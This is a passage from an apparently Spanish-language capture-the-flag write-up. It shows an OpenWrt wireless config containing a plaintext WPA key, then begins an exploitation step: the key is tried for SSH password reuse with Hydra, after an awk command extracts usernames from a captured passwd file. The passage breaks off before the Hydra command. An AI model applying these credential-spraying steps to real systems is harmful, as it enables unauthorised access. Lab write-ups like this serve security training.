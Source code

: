 ```bash
	option band '5g'
	option htmode 'HE80'
	option cell_density '0'

config wifi-iface 'wifinet0'
	option device 'radio0'
	option mode 'ap'
	option ssid 'OpenWrt'
	option encryption 'psk'
	option key 'VeRyUniUqWiFIPasswrd1!'
	option wps_pushbutton '1'

config wifi-iface 'wifinet1'
	option device 'radio1'
	option mode 'sta'
	option network 'wwan'
	option ssid 'OpenWrt'
	option encryption 'psk'
	option key 'VeRyUniUqWiFIPasswrd1!'
```
{: .nolineno file="wireless"}

## Explotación

Con esto en mente, se puede suponer que algún **usuario** tal vez haga uso de la contraseña **VeRyUniUqWiFIPasswrd1!**. Para esto se puede realizar la validación por medio del servicio **SSH**, mediante Hydra.

Para hacer esto, es necesario extraer los usuarios del archivo, pero para evitar hacerlo manualmente, se puede utilizar la herramienta 'awk' con el siguiente comando:

```bash
cat passwd  | awk '{print $1}' FS=":" > usuarios  ; cat usuarios
```
{: .nolineno}


```bash
root
daemon
ftp
network
nobody
ntp
dnsmasq
logd
ubus
netadmin
```
{: file="usuarios"}


Ahora solo hace falta ejecutar el siguiente comando de Hydra para probar la conexión:
